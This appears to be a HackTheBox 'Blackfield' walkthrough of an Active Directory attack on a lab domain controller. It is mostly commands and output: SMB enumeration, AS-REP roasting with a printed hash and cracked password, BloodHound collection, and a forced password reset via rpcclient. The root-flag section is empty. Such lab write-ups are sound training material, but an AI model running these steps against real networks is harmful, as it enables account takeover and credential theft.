

# Blackfield - Hard

Target IP: **10.129.229.17**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.229.17 -v```

Output shows a lot of ports open.

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-11 21:59:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

This seems like a domain controller, as indicated by ```DC01```.

We can't enumerate SMB without credentials.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ smbmap -H 10.129.229.17

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
[!] Access denied on 10.129.229.17, no fun for you...
[*] Closed 1 connections                                                                                                     
```

We can enumerate the base DN for the domain.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ ldapsearch -x -H ldap://10.129.229.17 -b "" -s base namingContexts
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectclass=*)
# requesting: namingContexts 
#

#
dn:
namingContexts: DC=BLACKFIELD,DC=local
namingContexts: CN=Configuration,DC=BLACKFIELD,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=BLACKFIELD,DC=local
namingContexts: DC=DomainDnsZones,DC=BLACKFIELD,DC=local
namingContexts: DC=ForestDnsZones,DC=BLACKFIELD,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

We need credentials to enumerate with ```windapsearch```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ windapsearch --dc 10.129.229.17 -m users
FATAL[2026-11-11T10:04:50-05:00] a successful bind is required for this operation. Please provide valid credentials  package=windapsearch
```

Aha, checking again, guest credentials work for enumerating SMB.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ smbmap -H 10.129.229.17 -u 'guest' -p ''

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.129.229.17:445	Name: 10.129.229.17       	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
[*] Closed 1 connections                                                                                                     
```

We have read access to an interesting share, ```profiles$```.

Let's connect to the share.

This contains a bunch of directories for different users. Although there is no content in them, we can build out a username list.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ smbclient '//10.129.229.17/profiles$' -U 'BLACKFIELD.local/guest%'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 12:47:12 2020
  ..                                  D        0  Wed Jun  3 12:47:12 2020
  AAlleni                             D        0  Wed Jun  3 12:47:11 2020
  ABarteski                           D        0  Wed Jun  3 12:47:11 2020
  ABekesz                             D        0  Wed Jun  3 12:47:11 2020
  ABenzies                            D        0  Wed Jun  3 12:47:11 2020
  ABiemiller                          D        0  Wed Jun  3 12:47:11 2020
  AChampken                           D        0  Wed Jun  3 12:47:11 2020
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ cat usernames.txt 
AAlleni
ABarteski
ABekesz
ABenzies
ABiemiller
AChampken
ACheretei
ACsonaki
```

Using ```GetNPUsers```, we get a hash for the ```support``` account.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ impacket-GetNPUsers -dc-ip 10.129.229.17 -no-pass -usersfile usernames.txt -request 'BLACKFIELD.local/' 
$krb5asrep$23$support@BLACKFIELD.LOCAL:54125b970f9306c0b6754dc4e0df10b8$f5950b0f09d5c9f111cf4ec8b9b716d0dac664d72b5d581ff6ef89b45c4a0a6405c146a697741700a50fc022e59a3d25a9b3c48cb1e2d2bbd9f54d0259e7ddd8e8c101d5f80045dd4a8b5263d4502056d90f76f59dab70d11a3016c3a2ba2a51ca6f5629cba9e271104a6c3f8ecee514a0bb9414b481e1b342f17f5156b6ed77ae0ddd5fe3161770b8b7ee9738ce1b19089e9bb16c97ad722b0997a638f2cdd6eef20ec56c152dedbe42074dd22303a270e3db84f4a1c99ae316b27e94c03b037892824e84d214d97dff2fc0b88b7258239b76b51954eaac9b7f3c9462363bef5306579511d194442854dbc4d5508f4cc32240be
```

Hashcat cracks the hash for us.

```
$krb5asrep$23$support@BLACKFIELD.LOCAL:54125b970f9306c0b6754dc4e0df10b8$f5950b0f09d5c9f111cf4ec8b9b716d0dac664d72b5d581ff6ef89b45c4a0a6405c146a697741700a50fc022e59a3d25a9b3c48cb1e2d2bbd9f54d0259e7ddd8e8c101d5f80045dd4a8b5263d4502056d90f76f59dab70d11a3016c3a2ba2a51ca6f5629cba9e271104a6c3f8ecee514a0bb9414b481e1b342f17f5156b6ed77ae0ddd5fe3161770b8b7ee9738ce1b19089e9bb16c97ad722b0997a638f2cdd6eef20ec56c152dedbe42074dd22303a270e3db84f4a1c99ae316b27e94c03b037892824e84d214d97dff2fc0b88b7258239b76b51954eaac9b7f3c9462363bef5306579511d194442854dbc4d5508f4cc32240be:#00^BlackKnight
```

We can't get a shell through ```evil-winrm``` or ```psexec```.

Let's enumerate further.

We do have more permissions on SMB with these credentials.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ smbmap -H 10.129.229.17 -u support -p '#00^BlackKnight'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.129.229.17:445	Name: 10.129.229.17       	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
[*] Closed 1 connections                                                                                                     
```

Looking inside ```SYSVOL```, we can extract some files concerned with group policy objects.

```
smb: \BLACKFIELD.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\> ls
  .                                   D        0  Sun Feb 23 06:13:14 2020
  ..                                  D        0  Sun Feb 23 06:13:14 2020
  GptTmpl.inf                         A     1098  Sun Feb 23 06:13:14 2020

		5102079 blocks of size 4096. 1691502 blocks available
```

However, these were not useful.

At a bit of a road block here, let's use BloodHound.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ sudo bloodhound-python -u 'support' -p '#00^BlackKnight' -ns 10.129.229.17 -d BLACKFIELD.local -c all
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.blackfield.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Testing resolved hostname connectivity dead:beef::70a5:9838:b4c1:db04
INFO: Trying LDAP connection to dead:beef::70a5:9838:b4c1:db04
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Testing resolved hostname connectivity dead:beef::70a5:9838:b4c1:db04
INFO: Trying LDAP connection to dead:beef::70a5:9838:b4c1:db04
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 00M 12S
```

Looking deeper in the analysis, there is something interesting. ```support``` has ```ForceChangePassword``` permissions over ```audit2020```.



We can use ```rpcclient``` to perform this.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ rpcclient -U "BLACKFIELD.local/support%#00^BlackKnight" 10.129.229.17
rpcclient $> setuserinfo2 audit2020 23 'Pwned!!!'
```

After changing the password, we still can't get a shell.

Let's check SMB again.

We see an entirely new ```forensic``` share.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ smbmap -H 10.129.229.17 -u audit2020 -p 'Pwned!!!'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.129.229.17:445	Name: 10.129.229.17       	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	READ ONLY	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
[*] Closed 1 connections                                                                                                     
```

Let's connect to it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-fxcvlnp6dm]─[~]
└──╼ [★]$ smbclient //10.129.229.17/forensic -U 'audit2020%Pwned!!!'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

		5102079 blocks of size 4096. 1694101 blocks available
```

I'll recursively download all the files here.

```
smb: \> lcd "/home/htb-mp-3199654/forensics"
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
getting file \commands_output\domain_admins.txt of size 528 as commands_output/domain_admins.txt (11.5 KiloBytes/sec) (average 11.5 KiloBytes/sec)
getting file \commands_output\domain_groups.txt of size 962 as commands_output/domain_groups.txt (21.8 KiloBytes/sec) (average 16.5 KiloBytes/sec)
```

## Root Flag

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
